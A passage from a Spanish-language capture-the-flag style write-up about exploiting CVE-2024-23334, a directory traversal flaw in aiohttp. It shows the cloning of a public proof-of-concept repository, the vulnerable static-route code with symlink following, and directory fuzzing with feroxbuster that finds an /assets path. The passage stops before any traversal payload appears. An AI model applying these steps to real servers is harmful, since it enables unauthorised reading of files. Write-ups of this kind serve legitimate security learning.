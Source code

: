 ![Write-up Image](images/Screenshot_17.png)

También nos encontramos [este artículo](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0) explicando la vulnerabilidad.

Volviendo al PoC, nos clonamos el repositorio.
```console
$ git clone https://github.com/z3rObyte/CVE-2024-23334-PoC
Cloning into 'CVE-2024-23334-PoC'...
remote: Enumerating objects: 22, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 22 (delta 7), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (22/22), 6.39 KiB | 6.39 MiB/s, done.
Resolving deltas: 100% (7/7), done.
```


Leyendo el servidor de prueba vulnerable, vemos el siguiente código.
```python
async def main():
    app = web.Application()
    app.router.add_get('/', index)
    app.router.add_static('/static/',
                          path='static/',
                          follow_symlinks=True)
```

Al parecer, necesitamos una ruta válida que exista en el servidor web vulnerable.

Fuzzeando rápidamente encontramos la ruta `/assets`
```console
$ feroxbuster -u http://127.0.0.1:8081 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.
txt -d 1 -t 100
....
404      GET        1l        3w       14c Auto-filtering found 404-like response and created new filter; toggle
 off with --dont-filter
200      GET        5l       83w    59344c http://127.0.0.1:8081/assets/css/all.min.css
200      GET        2l     1294w    89501c http://127.0.0.1:8081/assets/js/jquery-3.6.0.min.js
200      GET       88l      171w     1380c http://127.0.0.1:8081/assets/css/style.css
200      GET       72l      171w     2491c http://127.0.0.1:8081/assets/js/script.js
```
